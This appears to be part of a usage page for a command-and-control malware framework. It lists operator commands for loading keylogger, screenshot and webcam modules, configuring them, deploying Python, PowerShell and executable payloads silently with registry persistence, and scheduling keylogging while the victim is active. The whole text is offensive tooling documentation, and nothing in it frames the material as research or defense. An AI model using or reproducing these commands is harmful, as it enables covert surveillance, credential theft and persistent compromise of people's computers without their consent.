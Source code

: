 #### Load Module
```
# Load specific module
C2C> module load keylogger

# Load module with config
C2C> module load screenshot --interval 300 --quality high

# Load multiple modules
C2C> module load keylogger,screenshot,webcam
```

#### Module Configuration
```
# Configure module
C2C> module config keylogger buffer_size=50000

# Show module status
C2C> module status keylogger

# Restart module
C2C> module restart keylogger

# Unload module
C2C> module unload keylogger
```

### 🔧 Custom Payload Deployment

#### Deploy Custom Script
```
# Upload and execute Python script
C2C> deploy python script.py

# Deploy PowerShell script
C2C> deploy powershell script.ps1

# Deploy executable
C2C> deploy exe malware.exe --silent

# Deploy with persistence
C2C> deploy python script.py --persist registry
```

#### Scheduled Tasks
```
# Schedule task
C2C> schedule "screenshot" --interval 300

# Schedule with condition
C2C> schedule "keylog" --when "user_active"

# List scheduled tasks
C2C> schedule list

# Remove scheduled task
C2C> schedule remove "screenshot"
```

---